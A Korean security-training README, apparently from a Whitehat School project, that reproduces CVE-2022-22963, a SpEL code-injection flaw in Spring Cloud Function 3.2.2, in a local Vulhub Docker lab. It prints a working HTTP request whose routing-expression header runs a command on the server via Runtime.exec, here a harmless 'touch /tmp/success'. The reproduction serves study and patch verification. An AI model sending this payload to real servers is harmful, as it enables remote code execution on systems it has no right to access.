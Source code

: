 
# **Spring Cloud Function SpEL 코드 주입 (CVE-2022-22963)**

> 화이트햇 스쿨 3기 (33반) - [조민형 (@foskingson)](https://github.com/foskingson)

<br/>

### 📖 **목차**  

1. [요약](#요약)  
2. [취약한 환경 구성](#취약한-환경-구성)  
3. [취약점 재현](#취약점-재현)  
4. [Pull Request 링크](#Pull-Request-링크)  
5. [참고 자료](#참고-자료)  

<br/>

### 📌 **요약**

**Spring Cloud Function**은 AWS Lambda와 같은 **FaaS(Function as a Service)** 플랫폼을 포함하여 다양한 플랫폼에서 함수 기반 소프트웨어를 배포할 수 있도록 지원하는 공통 모델을 제공한다.  
그러나 **Spring Cloud Function 3.2.2 버전**에는 **SpEL(Spring Expression Language)을 통한 코드 주입 취약점**이 존재하며, 이를 악용해 **원격에서 명령어를 실행할 수 있다.**

<br/>

### 🛠️ **취약한 환경 구성**

1. 아래의 **참고자료 1번**을 참고하여 로컬 환경에 `docker-compose.yml` 파일 작성  
2. `docker-compose.yml`이 위치한 경로로 이동  
3. `docker compose up` 명령어를 통해 도커 컨테이너 실행  
   - 이미지가 로컬에 없다면 자동으로 설치됨 (`docker pull`)  
   - `docker compose up --build`를 통해 이미지 새로 빌드 가능  

<p align="center">
  <img src="./1.png" alt="환경 구성" width="700"/>
</p>

<br/>

### 🧪 **취약점 재현**

#### 1. **스프링 서버 정상 실행 확인**

도커 컨테이너 실행 후 아래와 같은 기본 페이지가 나타나면 **정상적으로 서버가 열린 것**이다.

<p align="center">
  <img src="./2.png" alt="스프링 웹서버 기본 화면" width="700"/>
</p>

#### 2. **SpEL 삽입을 통한 명령어 실행**

요청 헤더에 `spring.cloud.function.routing-expression` 값을 통해 **SpEL 표현식을 삽입**하고,  
대상 서버에서 `touch /tmp/success` **명령어를 실행**한다.

- 파이썬 코드로 전송 (`vulhub.py` 참고)  
- 성공 시 `/tmp` 디렉토리에 `success` 파일이 생성됨

```http
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4
```

#### 3. **success 파일 존재 확인**

`docker compose exec spring bash` 명령어로 컨테이너 내부 bash에 접속하여  
`/tmp` 디렉토리에서 `success` 파일을 확인할 수 있다.

- `docker compose exec spring bash`: `spring`이라는 컨테이너 안에서 bash 쉘을 실행하는 명령어

<p align="center">
  <img src="./3.png" alt="공격 성공" width="700"/>
</p>

<br/>

### 📚 **참고 자료**

1. [Vulhub GitHub - CVE-2022-22963 환경 구성](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963)  
2. [VMware 공식 보안 공지](https://tanzu.vmware.com/security/cve-2022-22963)  
3. [중국 블로그의 공격 예시](https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw)  
4. [Spring Cloud Function 패치 커밋](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)  
